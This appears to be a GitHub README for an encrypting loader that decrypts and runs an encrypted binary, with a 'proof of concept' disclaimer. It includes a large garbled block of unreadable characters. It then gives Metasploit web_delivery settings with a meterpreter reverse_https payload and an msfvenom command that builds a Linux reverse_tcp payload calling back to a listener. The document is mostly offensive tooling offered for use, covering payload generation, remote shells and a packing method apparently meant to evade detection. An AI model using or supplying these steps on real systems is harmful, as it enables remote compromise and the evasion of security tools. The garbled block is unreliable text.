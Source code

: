 ### encrypt any bin first using a password
> go run encryptor.go /usr/bin/ls encrypted_binary abcd1
>> `abcd1` -> is the password

### use the loader to decrypt and run the binary
> ./loader encrypted_binary abcd1


> please guys, i am not responsible for anything you do with this, i am doing this just for a proof of concept.
> i am not responsible for any damage caused by this.

> https://www.youtube.com/watch?v=nBKiVwEOWuk


```
                                                                                                     
      ;~{>)²‹                                               [t³­˜>c–                                 
    ÷˜    ›°·»úë0÷                                       ³•‘¾c«²z)v2¼                                
   ˆ«^—   ³”* —¬¤ôøý4’                                 ×7!–¼½»ªö­‡ö;«1                               
   ?  ì   ‹“ ’> «+}îSñÿ¶<                            [öì‚i)× ÷)i“)°©¯I                               
   »   j  ›    ¦77–›?Y&Ý5Óß                         öÏ¾˜t¼I<^¤Jôz¯¿¢?d                               
   í “‡ˆ—{  º’ ˆ`~v­²íÍ<!ž§ÓËI                    ˆxï†ˆ²aI—ìZ3²I??u¼>P  ¨xkµˆ                        
   ™      +½ƒ±n’˜¦»¬²d{ˆ@’¬¾áÖÉS                  î‘& ª!u?xfD&3r²‡íˆOq  ¼                      <?”F  
   )«   ’”  ¨!ì½ƒ4n¤’(„+»<•!?£PFWO               [~¯yª)° xDòäàx²†¼=`¾E  ü³                        ®; 
   ‚ì ¿ º‘ ‘v¬jv‰ò}¤tZ+·–¹„îov)2ÙÒ#µ            J  ïƒ|÷~îf24ûùn•ò+(z2B° ‚£                       ³ë  
    ÷   (  î[>ì?}y:’í¬j)•÷¬¡ x~<~™ÒèŒ‡         >²¯¡ˆ‘‰›ï·õòT9ü²òî;ÓQîgi  ;©                      6¸  
     ô    rˆrªo/»@¤c†ù¦ ü í–:?«S:+IàSkÉ‹      <‚–J”–cóª³:vò¥Ü<•y¯3õý@Ë‰   —ü²                   Jí   
      ˜   ”·(¹{»?—µ?)äö¤aó!!{)?¯*2l×jÿøXa    |›ï I–¿ºïi¬sÇ¥»?7¤ö[ÍbÜU#Ì     4i                 ƒu    
      i  )‹  7»   ûtuh «jˆ)^(|›^{÷a%‡?5ÛEB! «´¦¡‡¿ï¯­?÷!;o}šá£Ï[ü6µÒžB}      õ1               `Í;    
      |¬`   ²°`+¯ ª˜”ä‹¨{ª|;{“ö­‰t{jùí{iÚðÐ®3  +¿z¯ˆ°1ºv}„‰²U¼v›Sôfqúœ!       xƒ              úí     
       ª r  ‹“ ¨t:íªvÞ?ï´–´/í?v×òˆ?¡?V*[JÍbŒÅî—(†z¯C²“!*²;3C=¢6Iò‡9å9Ž;        pw            ²à      
       ì`  ii  ~~‰ ×!7 ²4);†{zƒ>¼{=ª+ív™IIJÙÿÑÌv}!=i ò¬˜tì®zº¦¿lûYOÒÏæ          £©           3ú      
       „   t  ƒ³  ƒ­ !IJò ª†o<>%¥ì1>•}}iÏå½lìmËÙ–V¯¯;?”|1²7—ö)^ÏÜÏ±g™þ           YÌ         ­P       
        t   {—°  ò°¡ˆ}–<ì ö7¬}†v×¯ü7zwl)vYrf&cCèÆü)i7»¬í:í«)¦[³5yUxüµm         –  ©h        ‡V       
        !   :: ) ²;;?‰ `÷ ³ì;*<ï«)[Iu‡<%í[‰n<s±ïVâ€JIt¯Ï¯))t=ìnñTh6k6Î       £±c   4O       b×       
         L      >ª~¨   ?/  ö=}7×7l7¿ƒíƒò¤j<ìó¼=o±ïVKh•r¹I¹í;S«>YÿUý‰ñ‡       ¡¢½    yÍ     …Ù        
          »|}<Ii?ù   ¨¸×› <•–?r¬*¤»­?¬i1j£iîvö7ó7ajJ3Wf³I*‚î±I¦YüÿŸaÀ­       ˆäµ­    EO’  ;Èÿ        
            í  –}¯  ‘3¢      :j)’;<{ª=rIJ s=¬‡>?tû×l«eèH¼ò¬”?´iIYÚ&LZ         xXï˜   vÂ©  ŸÙƒ        
              I       ’   ‡‰  ª7^ºI¤ ¡?×>rjí<¿>)?í7¢†@îÝŒŸ¼„3@×IOá4h¥   ­ï7<›‚÷sAc    é®<»É0›        
     ‹?Lõƒv){[÷›²¤v†9üDZf©¢[–÷¼Ír<¤==»J<¿×<ÏTî<1t†ív<I<ö3ûWÍ)wÏáQÓ€ë^   `îï…çðµ&4ÙáŽE§òÊµJmP         
   †[³   :¦„²’“ˆ­*/?¿20t¿+zÏl?^v1IÝañÙðÒÎüží«—+<v=vì/?<cíöVÎÛöÄKê€éÄ„´°?‚ %ƒÓQÆéEÚ€9[?/¿P€ã„ 7¼÷     
  ¬(  –†/¹¹<|/³˜²„ˆ³)){/÷ïv}vzYí7vIv0¼ïc‰>¿ì¤ƒƒžŸhµk™?„i?íò3óFÐÆÆÉÆRêÐK¥øÜñÿØÉHhQÇéÂRÒ2  ˆ=tmœÿY†+   
  «¹  ’   ¸¹!}i»Ìƒo¬;«¬ª^{ujlI(ˆ …+’ˆ˜’?¿‰¤@‡j1ILúçLaûñµUmh‰5TµbÂÆæÈBgœÚÛØÑÆÆÊÅæÆÃÿv‰õç=S  7cÙÃwod^  
   —            ˆ        ª!«{*ª                       ¡‡cJ0¼ôµBÆÈMÈæÙKåBÇ$åŠéMÄÂŽŠáÿ€Äø¹ü©  ½¤€µox4  
   «       ‘«írl¦       :!ªi   u                    °vi>iY=½¶ÉMKÄÑ8þ#€µ6x$åTIÆÅÆB€ÈÆÌœS1ìCä ^SªQ!¶h` 
    “          ‚‘·º   ¨­›­º}vz®92¤L©ƒÌn‰o3ùüö¦’ˆ|>¿¼u>iJ©o?14ã46A6¥eÚJ±Ðë“ùá &ÆqÉBEÆžÕXJC<å´ªù•šmVk  
     /     ’˜ «)¯|“    )òfÌç¢<v(î*{/¯¯I±ni1nùzCôµ—^+‚­Iy1v‰mýÿZ»é®Ieï¼SŠ&Ÿø´f”ËÆÛÂ€EQœm÷t;š:?iárÆã2  
      j…¯{„­    ‹~º‘‹îtö{?“ª÷¦)”¬¤I7+¬!}v)oï)¼ŸOÎùÍ¼í=éÐWëóÇGÊÜÎìùaaf72‡lYåºŸ¼ÊÑÊ$NŽHgXVakÇ IYV§Æß   
       ¹~ ¯ˆ    ²¸>¼vr¢J›o*‚7~^;‰ç[ˆ4u>!¦5í“DDS› o3ŸçméÔÉG§ÞÂÆXg?2®(üÍLä$Bßáv$ØÆÊÈmKHBœmÜÜôlöý>Ù÷    
         v?   ˆ‹@¬×v1:”ï²`u¢¿“![)¾³¯*/°t4û©!óÕ$© slFFŸðÂÆ€DYýôÀHjJÎxÙešáéêèá€á$ãâØBÆMRðRÀBWÆÂWÊÎ     
            (…}0C[•{²„¢¯¹º¯•²5O2²/^0ya}õC5DÙF€m21q©ãðÔÀQØRZäÔ¦ÙmƒxxµZéPÂÆXéM2ŒÉhËÃÇ4<pÜÑNÑœÞýÿÚ      
            ´6Ÿ0ƒ«)<í!?÷”ª!5h®šShüûXgx üxŠmÜDÙÞj±KLŸæQÄéÂŒE8V;6øo“ÖÖœŽÁÜÊWMÑWæÑÀÃš4² øpaŠþ®3ü#Sh     
           »ähÓmÅŠ0i”;i„¿{{ÖmgÈæÔŠ&œ#h´š<ÑþÄéhëoóHàYBØ#ÃÅgÈps“åÓû»tAXÄEÆÑæNÑŽæÀRã£¯(%óÐ å©‡t•dåY}    
          òdÓpqøâmÛÐØNØÆÆÆÆÆmÆWHÿèµêÅV/M¾ŸÊÊMšd==HéfúÔÉBBŠQê§žEÿs¦ qÄÉÂÆÊÑŒ#ÛBÓÿá™;  ìg•4Ol…  ŽŠy    
         ®ñÓRÆŒKAéâdŠEqÙTÐAþÿÿÕÉAÕŸKÀn¦M¶ƒYQR¶8+ Üð&®½ßØEÉNãœ8#pþülÃÂÊÉÈÆÆÊp$ÕäÍ†   ˜SûËC/    ¨gõ^   
          ÞœÆ€ðNÉÂEÀÑœß§äµý£µmõéMÑÞÅQÍ’ËdÖÐšØÆ4ª øéâÓfžÆÆÆþMÁéü¼ÞÞAÑW#BÆØMàEÜó›     ÏŸ: Yt´    cHi   
         »®ÕÆÊÆÆMŸéRF¾Y¢Pàz7èçžýŠèâmÄ( æpgÞÔáÚÿì Këñäh½ŸÆŒKÆØÕâF§ŽêŒÆEEØ8éGp        šs  v™v     £ó   
        ›úÞÊœÅmœŽÂEEü¡iS3½o°ìT§N¶PZÿ!` ENÞâäµ¥ãNÀÃXâøô££ÑÆÑËÉÔÃðûœqÉŒœþTýÿX6       •µ    |L¼    <U   
        a8êÐNøßEÅä9ašå9@|  >cõfÖÓSbœu½˜XœØŠÒaw¢FÿÆÂÜÿgSWÆÆBÅØR#ÕÇ8š€&¤r3‹ •š„      òt     ·L½   ‚6   
       ÏûÆÊ#ðœmþûDUTŸ&ŸúdŠª  ¯@ûÏ xFå6šG8ØØðÎ¾6xéÐÖeµhENŒÀbœð4ü%h[¦  ‘     ˆhí      o       ƒz  ¸i   
      úDœËâÕ€ŒØéµYÒ&úîrY!ÎõBÎ fU[7c¾¼©2£ÝðÊmðáµákJþåwaHü{>»äÎ• ’S+           uÇ     ‰         5 «    
       0ÆÆÓµpŒÝÖ$ÎA¼IY¦[‚  Sšm¶xÍ5ú6ìò½šøWèŒAÇäµaœ£éÇ:/½   (u  ’8„            !9`   y                
        „ÙQÆÑÆÉDàŸy¾¤»?¡    j¼µXÉS49}%xèÓÊÆbëFÇÚP!Îl       ‘D  ³m¯              0Y   î               
        ×Î$þHÄÈŒÑŒâU£/í    «ii2ÝÔqmZ=ç5Ò¥mœŒpY @ú·Î–       `Š  jl<`              ™ô~ >               
        öqÂÂ¾ëñœŽ2¼èP$Šü  ^×^üö™ü®žDCóÜqÿmð    Z˜ ó»V       Ç¦ ûªÏ¿             ©  Û  ƒ              
        ëÜÆÉA®HÙbüxI«tüY4ßÚú«×¼eñ¼üÿ©Þ8£éý    ï©  Ißö)      §} ;´ ’á¹                  Ì             
       ˜ÛgÕÄÕðþqšúá±o   ²C3ÒÊé/çÿêÎÒíµŠÆe     4    }ç       i}      ìl                               
        ’QØÆÆÆÆÆÊgý1:  ‚)a‘z4ÜŽÑh6µþêð       L%    ˜B”     `í¿        v¨                             
          ëÊÉÅþRøBFwrO€EÊHFä7GÙèë^çµZ     ­››4      òü        ´ˆ       µ}                            
          ¯ÔÃÐÐNfÈ£¡  aSlnìóµ¹      Ô~       )       1¦                 <‡                           
           £êÆŽŒ$õµ¤  |ÌF523†       ·=        „      &/                  7v                          
            ñáãEÈÉMŽÖoî+¬^ú          ±       /`      ’¾                 ‹7 t“‚                       
              nâÖäœbÙP¡|ÿöº          {=      ›        f·                                             
               ²Ð4ýÞñB#™¸ 6           Ï    [¸         ‡|                                             
                 ßžØœmÜ®Y§¦c¶±?/—     ~î s¯           u3›                                            
                    ¹@SÙÅ¥äGÁB&t?    v+w¸           ²:                                               
                           ¼µÏ%t„²²››  ¦%                                                            
                                       ·;¿ó…                                                         

```



> docker run --rm -it --network host metasploitframework/metasploit-framework


Module options (exploit/multi/script/web_delivery):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Payload options (python/meterpreter/reverse_https):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.7      yes       The local listener hostname
   LPORT  444              yes       The local listener port
   LURI                    no        The HTTP Path



msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.7 LPORT=4444 -f elf -o /tmp/payload.elf

